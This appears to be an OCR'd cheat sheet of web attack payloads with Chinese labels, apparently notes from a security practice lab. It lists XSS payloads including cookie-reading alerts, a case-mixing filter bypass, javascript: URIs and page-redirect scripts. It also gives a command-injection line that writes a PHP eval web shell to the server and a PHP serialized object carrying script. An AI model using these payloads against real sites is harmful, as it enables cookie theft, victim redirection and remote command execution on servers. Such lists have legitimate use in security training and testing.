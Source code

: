 xss-js:
'</script><script>alert(1)</script>


xss-post:
<script>alert(document.cookie)</script>



<script>alert(document.cookie)</script>

<script type="text/javascript">window.location.href="跳转的目的地址";</script>
<script type="text/javascript">window.location.replace("跳转的目的地址");</script>
<script type="text/javascript">window.location.assign("跳转的目的地址");</script>


xss-过滤：
<SCript>alert(123)</SCRipt>
xss-htmlspecialchars:
javascript:alert(1)
xss-href输出:
javascript:alert(1)



rce:
`127.0.0.1 | echo "<?php @eval(\$_REQUEST[123])?>" > shell.php`
php反序列化
O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}